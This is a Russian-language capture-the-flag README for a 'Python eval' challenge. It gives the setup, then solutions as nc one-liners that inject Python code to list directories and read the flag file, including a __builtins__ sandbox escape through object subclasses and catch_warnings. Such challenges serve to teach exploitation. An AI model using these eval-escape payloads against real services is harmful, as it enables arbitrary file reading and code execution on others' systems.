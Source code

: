 Python eval
===========

> Боб настолько любит Python, что не может прожить без него ни дня, но что делать если на новом рабочем компьютере Боба Python еще не установлен?  
> Боб написал небольшой скрипт, который принимает строку кода и исполняет ее, и запустил его у себя дома. Теперь Боб может в любое время писать код. Но, к сожалению, он не знал, что его код не безопасен. Говорят на его домашнем компьютере лежат секретные данные.
Заполучите их!  

Файлы
-----
1. **eval.py** - Исходный код
2. **eval2.py** - Исходный код "harder" версии
3. **159fe327e79316e0f9169fa326fafbd1.txt** - Файл с флагом
4. **blacklist.txt** - Файл с запрещенными словами
5. **server.py** - Псевдо исходный код, который доступен участникам
6. **server2.py** - Псевдо исходный код для "harder", который доступен участникам

Запуск
------
```
python3 eval.py [-h] [-host HOST] [-p PORT] [-cpu CPU] [-t TIMEOUT]
```
host - Имя хоста, по умолчанию - socket.gethostname()  
port - Порт, по умолчанию 1337  
cpu - Количество одновременно запущенных процессов, по умолчанию 16  
timeout - Время жизни одного процесса, по умолчанию 3 секунды  

---

[Описание проблемы](https://habrahabr.ru/post/221937/)  
Единственное отличие "harder" версии от обычной в том, что теперь закрыт доступ не только к глобальным переменным, но и к \__builtins__

---

Решение
-------
1. Получить список файлов в папке  
    ```
    echo "__import__('os').listdir()" | nc адрес порт
    ```
2. Прочесть флаг  
    ```
    echo "open('имя файла с флагом').read()" | nc адрес порт
    ```  

Решение "harder" версии
------------------
1. Получить доступ к встроенным \__builtins__  
    ```
    [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__
    ```
2. Получить список файлов в папке  
    ```
    echo "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').listdir()" | nc адрес порт
    ```
3. Прочесть флаг  
    ```
    echo "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['open']('имя файла с флагом').read()" | nc адрес порт
    ```

[Источник](https://www.reddit.com/r/Python/comments/hftnp/ask_rpython_recovering_cleared_globals#thing_t1_c1v372r)